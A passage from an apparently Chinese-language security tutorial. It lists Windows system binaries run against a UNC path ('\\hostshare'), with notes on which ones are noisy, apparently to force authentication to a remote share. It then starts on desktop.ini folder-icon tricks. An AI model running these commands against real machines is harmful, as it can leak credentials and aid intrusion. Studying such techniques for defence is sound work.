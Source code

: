 ```plain
> fvenotify.exe \hostshare #(noisy, pops an access denied error)  
> FXSCOVER.exe \hostshare #(noisy, pops GUI)  
> hwrcomp.exe -check \hostshare  
> hwrreg.exe \hostshare  
> icacls.exe \hostshare   
> licensingdiag.exe -cab \hostshare  
> lodctr.exe \hostshare  
> lpksetup.exe /p \hostshare /s  
> makecab.exe \hostshare  
> msiexec.exe /update \hostshare /quiet  
> msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
> mspaint.exe \hostshare #(noisy, invalid path to png error)  
> msra.exe /openfile \hostshare #(noisy, error)  
> mstsc.exe \hostshare #(noisy, error)  
> netcfg.exe -l \hostshare -c p -i foo
```

### 通过系统图标

每个文件夹底下都有个文件 desktop.ini 来指定文件夹图标之类的，默认不可见，可以通过在控制面板中去掉"隐藏受保护的操作系统文件"看到  
[![](assets/1701222524-02348ac5088674f1f9dae54b17a45e16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128141026-d2f3c938-8db4-1.png)  
每个文件夹底下都会有，我们新建一个新的文件夹的话，如果没看到 desktop.ini，可以尝试更改图标，就可以看到了  